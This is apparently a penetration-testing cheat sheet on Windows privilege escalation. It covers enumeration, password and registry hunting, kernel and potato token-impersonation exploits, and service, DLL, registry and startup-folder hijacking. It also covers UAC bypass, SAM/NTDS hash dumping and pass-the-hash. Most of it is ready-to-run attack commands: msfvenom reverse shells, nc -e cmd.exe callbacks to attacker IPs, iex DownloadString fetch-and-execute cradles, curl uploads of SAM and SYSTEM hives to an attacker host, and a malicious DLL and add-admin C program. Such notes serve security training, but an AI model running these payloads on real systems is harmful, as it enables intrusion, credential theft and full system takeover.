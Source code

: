 # Privilege Escalation (Windows)

<details>

<summary>Automated Tools</summary>

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)

If unable to run scripts/executables on target, use Windows Exploit Suggester on attacker's machine

### Windows Exploit Suggester

On Victim: `systeminfo`

On Attacker:&#x20;

```bash
python2.7 windows-exploit-suggester.py --update
```

```bash
python2.7 windows-exploit-suggester.py -i systeminfo -d 2023-03-10-mssb.xls
```

### PowerUp.ps1

```bash
powershell -ep bypass -c "Import-Module .\powerup.ps1; Invoke-AllChecks"
```

```bash
powershell -ep bypass
Import-Module .\powerup.ps1
. .\powerup.ps1
Invoke-AllChecks
```

### Windows Privesc Check

<pre><code><strong>windows-privesc-check --dump -G
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* To find the username the shell is running as

```bash
whoami
```

* Checks privileges

```bash
whoami /priv
```

* To find the OS, version and architecture

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* List system-wide updates

```shell
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

* Powershell command to enumerate the loaded device drivers and kernel modules

```shell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

* Request the version of each of the loaded driver

```shell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* To find the user and groups that a user belongs

```shell
net user <username>
```

* To find other accounts

```shell
net user
```

* Check who's in the local administrator group

```bash
net localgroup administrators
```

* Check what groups the user is in

```bash
whoami /groups
```

</details>

<details>

<summary>Registry</summary>

```bash
reg query HKLM /f password /t REG_SZ /s
```

* Find admin AutoLogon credentials

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

* Check if Always Install Elevated is enabled

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

</details>

<details>

<summary>Network </summary>

* Show network interfaces

```shell
ipconfig /all
```

* Show the routing table

```shell
route print
```

* Show active listening network connections

```shell
# To obtain the PID, listening ports
netstat -an | findstr LISTEN

# To determine which service is running on a particular port
tasklist /v | findstr <PID>
powershell -c Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
```

Are there any internal services? (Local address that's not 0.0.0.0)

* Show the firewall profile&#x20;
  * is it active?

```shell
netsh advfirewall show currentprofile
```

#### Show all firewall rules

* New:

```bash
netsh advfirewall firewall dump
```

* Old:

```shell
netsh advfirewall firewall show rule name=all
```

```bash
netsh firewall show state
```

```bash
netsh firewall show config
```

* Obtain different drives' names

```bash
wmic logicaldisk get caption
```

* List all drives that are currently mounted and those physically connected but not mounted

```shell
mountvol
```

</details>

<details>

<summary>Services </summary>

* View scheduled tasks

```shell
schtasks /query /fo LIST /v
```

* Lists applications that are installed by Windows Installer

```shell
wmic product get name, version, vendor
```

* To find the services

```bash
sc queryex type= service
```

* Running services

```shell
tasklist /SVC
```

</details>

<details>

<summary>Local Administrator Password Solution (LAPS)</summary>

* Secure and scalable way of remotely managing the local administrator password for domain-joined computers
  * ms-mcs-AdmPwd
    * Contains the clear text password of the local administrator account

## Check if LAPS is installed Locally

```powershell
# Identify if LAPS installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Enumerate domain computers using LAPS via PowerView
Get-DomainComputer -Domain domain.com -LDAPFilter '(ms-Mcs-AdmPwdExpirationtime=*)'

# Identify which groups can view LAPS passwords
Get-DomainOU -Domain domain.com | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

## Exploitation

```powershell
# PowerView
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/PowerView.ps1')
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# OR LAPSToolKit
# git clone https://github.com/leoloobeek/LAPSToolkit.git
iex (New-Object Net.Webclient).DownloadString("http://IP/LAPSToolkit.ps1")
# Show LAPS enabled computers && cleartext password if any
Get-LAPSComputers
# Get the groupname that can view LAPS passwords
Find-LAPSDelegatedGroups
# Find the accounts that can view LAPS passwords
Get-NetGroupMember -GroupName "XXX"
```

</details>

<details>

<summary>Files &#x26; Directories </summary>

Use `dir /a` to see hidden files (eg: `.git` files)

* Look at PowerShell history file

```sh
PS C:> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

# $env:APPDATA --> C:\Users\sql_svc\AppData\Roaming
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash
powershell -c dir $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
powershell -c type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Search for any file or directory that allows the Everyone group write permissions

```shell
accesschk.exe -uws "Everyone" "C:\Program Files"
```

* AccessChk from SysInternals

- Powershell cmd to find files that can be modified by everyone

```shell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

</details>

<details>

<summary>Paths</summary>

### User PATH

```bash
%PATH%
FOR /F "tokens=1,3* skip=2" %G IN ('reg query HKCU\Environment') DO @echo %G=%H %I
```

### Global PATH

```bash
 FOR /F "tokens=1,3* skip=2" %G IN ('reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"') DO @echo %G=%H %I
```

</details>

<details>

<summary>Password Hunting</summary>

* Searching for the string `password` in files recursively from a directory
  * `s` = recursive
  * `p` = skip non-printable characters
  * `i` = case insensitive
  * `n` = print line numbers

```bash
findstr /spin /c:"password" *.*
```

```bash
findstr /si password *.xml *.ini *.txt
```

* Windows Autologin

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

* Powershell history file

```powershell
# In Powershell
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\

# In Cmd
C:\Users\YourUserName\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

* VNC

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

* SNMP

```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

* Putty

```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

* Registry

```bash
reg query HKLM /f password /t REG_SZ /s
```

```bash
findstr /si password *.txt *.ini *.config
```

</details>

<details>

<summary>Email Hunting</summary>

```bash
dir *.dbx /s
```

</details>

<details>

<summary>Presence of WSL</summary>

```bash
where /R c:\windows bash.exe
```

```bash
where /R c:\windows wsl.exe
```

</details>

<details>

<summary>Default files in Windows</summary>

* OS Determination

```bash
\windows\system32\license.rtf
```

```bash
\windows\system32\eula.txt
```

</details>

### Common Methods

<details>

<summary>Kernel</summary>

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### SMBGhost&#x20;

```bash
# CVE-2020-0796
# https://github.com/danigargu/CVE-2020-0796

# Compile it with Visual Studio. Change payload in exploit.cpp line 204 and add msfvenom payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=8081 -f dll -f csharp

# Compile it. Change 'debug' to 'release', set correct architecture. 
# Transfer to target

.\cve-2020-0796-local.exe 
```

### MS16-032

<pre class="language-bash"><code class="lang-bash"># https://github.com/egre55/windows-kernel-exploits/blob/master/MS16-032:%20Secondary%20Logon%20Handle/Invoke-MS16-032-Remote-Shell.ps1#L10
<strong>
</strong><strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o reverse.exe
</strong>
#Edit inside Invoke-MS16-032-Remote-Shell.ps1
Remove all the "/c C:\Users\Public\Music\nc.exe host port -e cmd.exe"
Edit all the "C:\Windows\System32\cmd.exe" to "c:\HFS\reverse.exe"

# Must use the following 64bit Powershell exe
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -ep bypass .\Invoke-MS16-032-Remote-Shell.ps1
</code></pre>

</details>

<details>

<summary>Tater (Hot Potato)</summary>

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

Affects the various windows versions

* Windows 7
* Windows 8
* Windows 10
* Windows Server 2008
* Windows Server 2012

Transfer `tater.ps1` over to victim

```bash
. .\tater.ps1
```

```bash
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

</details>

<details>

<summary>Show Currently Stored Creds</summary>

```bash
cmdkey /list
```

```
## Output
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

```bash
runas /savecred /user:ACCESS\Administrator reverse.exe
```

</details>

<details>

<summary>Autoruns</summary>

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```shell
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Have to wait for an administrator to login

</details>

<details>

<summary>Unquoted Service Path</summary>

Eg: Consider the string "c:\program files\sub dir\program name". The system tries to interpret the possibilities in the following order:&#x20;

* _**c:\program.exe, c:\program files\sub.exe, c:\program files\sub dir\program.exe, c:\program files\sub dir\program name.exe**_

```sh
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" 
```

```shell
sc qc <service_name>
```

If `START_TYPE : 2 AUTO_START` , then put in the malicious file and `shutdown /r /t 0` to restart the computer (hence, restarting the service).

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

```shell
net start unquotedsvc
```

c:\program.exe&#x20;

c:\program files\sub.exe&#x20;

c:\program files\sub dir\program.exe

c:\program files\sub dir\program name.exe

</details>

<details>

<summary>Binary Hijacking (Service)</summary>

```bash
# Generate Reverse Shell Executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.222 LPORT=80 -f exe -o reverse.exe

# Stop the service first to replace binary, otherwise access is denied.
net stop kiteservice

# Overwrite the service executable with malicious rev shell exe
move reverse.exe KiteService.exe

# Restarts the service
net start kiteservice

# Netcat Listener
┌──(root㉿kali)-[/prac_oscp/192.168.191.151]
└─# nc -lvp 80                                         
listening on [any] 80 ...
192.168.218.151: inverse host lookup failed: Unknown host
connect to [192.168.45.222] from (UNKNOWN) [192.168.218.151] 49999
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

</details>

<details>

<summary>AlwaysInstallElevated</summary>

### Check the following registry keys:

Both keys are set to 1

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Manual Method 1 (Simple)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### OR METHOD 2: [Custom MSI (Complex)](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/AlwaysInstallElevated.md#manual-exploitation)

Open an existing random project in Visual Studio 2022-> go to Extensions tab -> Manage extensions

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Install "Microsoft Visual Studio Installer Projects 2022" --> Restart VS to complete the installation

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a adduser.c file

```c
int main ()
{
	int i;
	i = system ("net user bill P@ssw0rd123! /add");
	i = system("net localgroup administrators user /add");
	return 0;
}
```

Compile it&#x20;

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> Properties

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Change TargetPlatform to x64

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> View --> Custom Actions

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Right-click "Custom Actions" --> Add Custom Action

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Double-click into "Application Folder"

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Select "adduser.exe" --> OK

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Change Run64Bit option in Properties Window to True:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Change build to release && build it with Cltrl-shift-b

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

```powershell
curl.exe http://192.168.45.218/always_install_elevated_add_bill.msi -o always_install_elevated_add_bill.msi
msiexec /quiet /qn /i always_install_elevated_add_bill.msi
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### OR USING METASPLOIT

```powershell
use exploit/windows/local/always_install_elevated
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set LHOST tun0
run
```

</details>

<details>

<summary>Scheduled Tasks</summary>

```bash
type C:\DevTools\CleanUp.ps1
```

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

</details>

<details>

<summary>Dumping Local NTLM Hashes</summary>

* Need to extract out SYSTEM and SAM registry hives but they are locked by SYSTEM process --> unable to read/copy the files
* Create a volume snapshot
  * ```
    wmic shadowcopy call create Volume='C:'
    ```
  * ```
    vssadmin list shadows
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
     C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
     C:\users\offsec.corp1\Downloads\system
    ```
* Using reg save
  * ```
    reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    reg save HKLM\system C:\users\offsec.corp1\Downloads\system
    ```
* Decrypt the SYSTEM & SAM files
  * creddump
    *   ```
        git clone https://github.com/Tib3rius/creddump7
        cd creddump7
        python3 -m venv venv
        pip3 uninstall crypto 
        pip3 uninstall pycrypto 
        install pycryptodome
        python3 pwdump.py ../system1 ../sam1 
        ```



</details>

<details>

<summary>Security Account Manger (SAM) Dump</summary>

* Located in `c:\windows\system32\config`
* Extract out the passwords, hashes

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

Transfer the SAM and SYSTEM files to kali thru SMB

```shell
copy C:\Windows\Repair\SAM \\10.11.67.208\kali\
```

```shell
copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\
```

On Kali:

```shell
git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome
```

On Kali:

```python
python3 creddump7/pwdump.py SYSTEM SAM
```

`admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` –> First hash is LM hash followed by NTLM hash!

On Kali:

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Ntds.dit &#x26; SYSTEM Dump</summary>

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

</details>

<details>

<summary>Passing the Hash</summary>

* Pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

```bash
pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe
```

</details>

<details>

<summary>User In Local Group with Admin Privileges (UAC Bypass)</summary>

### EventViewer-UACBypass

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

* Generate reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
```

* Abuse SeImpersonate privileges to obtain&#x20;
* Run `Invoke-EventViewer`

```bash
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer c:\temp\reverse.exe
```

OR using [FodhelperBypass.ps1](https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1)

```powershell
# Load PowerView in memory
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Using ps_shellcode_runner
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

</details>

<details>

<summary>Running Administrator account from normal user account</summary>

```bash
runas /env /profile /user:Administrator "c:\temp\nc.exe -e cmd.exe 192.168.45.5 443"
```

</details>

### Token Impersonation Attacks

<details>

<summary>SigmaPotato (Windows 2012 - Windows 2022)<br>Abuse seImpersonate privileges to obtain NT AUTHORITY\SYSTEM </summary>

```bash
.\sigmapotato.exe --revshell 192.168.45.218 4444
```

[https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)

</details>

<details>

<summary>PrintSpoofer (Windows 10, Server 2016/2019)</summary>

Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (125).png>)

* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

- From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege

* This step is purely to simulate getting a service account shell

```bash
.\printspoofer64.exe -c "nc64.exe -e cmd.exe 192.168.45.213 53"
```

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

</details>

<details>

<summary>Juicy Potato</summary>

Does not work on Win10 version >= 1809, Server2019. Check Win10 versions [here](https://juggernaut-sec.com/wp-content/uploads/2022/05/image-218.png).

![](<../.gitbook/assets/image (137).png>)

* [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

- `SeImpersonatePrivilege` is enabled —> vuln to JuicyPotato PrivEsc
- Transfer nc.exe `copy \\10.10.14.6\share\nc32.exe .`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

* If obtained the following error —> might be due to wrong CLSID
  * Find CLSID. For win server 2012 —> {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
  * [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
    * Find the BITS CLSIDs and test those first
  * Add as `-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
    * `-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

```bash
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
COM -> recv failed with error: 10038
```

* If obtained the following error —> might be windefender detecting and deleting the exploit.

```bash
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 2

[-] CreateProcessAsUser Failed to create proc: 2
```

</details>

<details>

<summary>Incognito</summary>

* Manual way: [https://github.com/milkdevil/incognito2/blob/master/incognito.exe](https://github.com/milkdevil/incognito2/blob/master/incognito.exe)
  * ```
    incognito.exe list_tokens -u
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
    incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
    ```

- Metasploit's method:
  * ```
    load incognito
    list_tokens -u      (Delegation tokens allow full authentication, while Impersonation tokens allow acting as another user.)
    impersonate_token corp1\\admin
    getuid
    ```



</details>

<details>

<summary>Rogue Potato</summary>

Works on versions of Windows after the changes took place (1809+)

Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

* [Rogue Potato ](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

- Setting up a spoofed OXID resolver
  * Forwards Kali port 135 to port 9999 on Windows.

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999
```

```bash
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
```

* `-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

</details>

### Less Common Methods

<details>

<summary>Insecure Service Permissions (Modifiable Service)</summary>

* Checks the “user” account’s permissions on the ”daclsvc” service

- “user” account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG)

```shell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

```shell
sc qc daclsvc
```

```shell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```shell
net start daclsvc
```

OR USING POWERSHELL...

```powershell
cmd /c sc qc <service_name>
```

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Start Type --> Change to autostart

```powershell
cmd /c sc config <service_name> start=auto
```

Add final.com\nina to local administrators group: --> DO NOTE THAT LocalService doesn't have enough rights to add users

```powershell
cmd /c sc config <service_name> binpath= "net localgroup Administrators final.com\nina /add" obj= "NT AUTHORITY\SYSTEM"
```

Ensure that changes are updated & run it

```
cmd /c sc qc <service_name>
net start <service_name>
```

"The service is not responding to the control function." is normal.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>DLL Hijacking</summary>

* Find the DLLs that have `NAME NOT FOUND` and is in writable directories.
  * eg `c:\temp\hijackme.dll`

```bash
 // For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o        output.dll
 // For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.  dll
 
 #include <windows.h>
 
 BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
     if (dwReason == DLL_PROCESS_ATTACH) {
         system("cmd.exe /k net localgroup administrators user /add");
         ExitProcess(0);
     }
     return TRUE;
 }
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

* Transfer `output.dll` to `c:\temp\hijackme.dll`
* Restart the `dllsvc` service
  * `sc stop dllsvc`
  * `sc start dllsvc`

## OR..

In CLIENT01 process monitor:

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png>)

* Create malicious msasn1.dll & save to C:\Program Files\FileZilla Server --> Rev shell
  * ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o msasn1.dll
    ```
  * ```powershell
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
    ```
    *

        <figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  * Start Filezilla server
* ```powershell
  Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
  copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
  ```

</details>

<details>

<summary>Weak Registry Permissions</summary>

* To find weak registry perm, use the following command
  * Will show `NT AUTHORITY\INTERACTIVE Allow FullControl`

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Using command prompt,

```bash
sc qc regsvc
```

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Registry entry for regsvc service is writable by NT AUTHORITY\INTERACTIVE group (essentially all logged-on users)

```basic
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Overwrite the ImagePath registry key to point to the reverse.exe executable

```bash
net start regsvc
```

</details>

<details>

<summary> Insecure service Executables</summary>

<pre class="language-shell"><code class="lang-shell"><strong>sc qc filepermsvc
</strong></code></pre>

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```shell
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Service binary (BINARY\_PATH\_NAME) file is writable by everyone)

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```shell
net start filepermsvc
```

</details>

<details>

<summary>Insecure GUI Apps</summary>

Login to user account

```bash
rdesktop -u user -p password321 10.10.201.218
```

Double-click `AdminPaint` shortcut on Desktop

```bash
tasklist /V | findstr mspaint.exe
```

Paint is running with admin privileges

In Paint, `File` –> `Open`. `file://c:/windows/system32/cmd.exe`

</details>

<details>

<summary>Startup Apps</summary>

* To search for writable startup apps folder
  * he `BUILTIN\Users`group has full access ‘(F)’ to the directory

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* Generate reverse shell:&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.20.202 LPORT=443 -f exe > reverse.exe
```

* Put `reverse.exe` into startup folder

```bash
copy reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.exe"
```

* Wait for administrator to login

</details>

<details>

<summary>SeRestorePrivilege</summary>

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe c:\Windows\System32\utilman.exe
```

On Kali:

```bash
rdesktop 192.168.204.165
```

Win Key + U --> Spawned NT Authority\System shell

</details>

<details>

<summary>SeBackupPrivilege</summary>

On Victim:

```bash
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Transfer files to attacker:

```bash
# On Attacker:
wget https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@c:\\temp\\system' http://192.168.45.162
powershell -c curl.exe -F 'file=@c:\\temp\\sam' http://192.168.45.162
```

Dump out the hashes

```bash
git clone https://github.com/Tib3rius/creddump7
python3 creddump7/pwdump.py system sam
```

</details>

<details>

<summary>WerTrigger</summary>

For Example, MySQL Service has File Write permission as SYSTEM

Checking to see if MySQL Service has File Write perm as SYSTEM:

<pre class="language-sql"><code class="lang-sql">MariaDB [(none)]> select load_file('C:\\temp\\chiselx64.exe') into dumpfile 'C:\\temp\\try.exe';
<strong>
</strong><strong>#Have File Write permission as SYSTEM through mysql.
</strong>c:\temp>icacls try.exe
try.exe NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
</code></pre>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger)

[https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

```sql
c:\temp>certutil -urlcache -f http://192.168.45.5/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/WerTrigger.exe WerTrigger.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

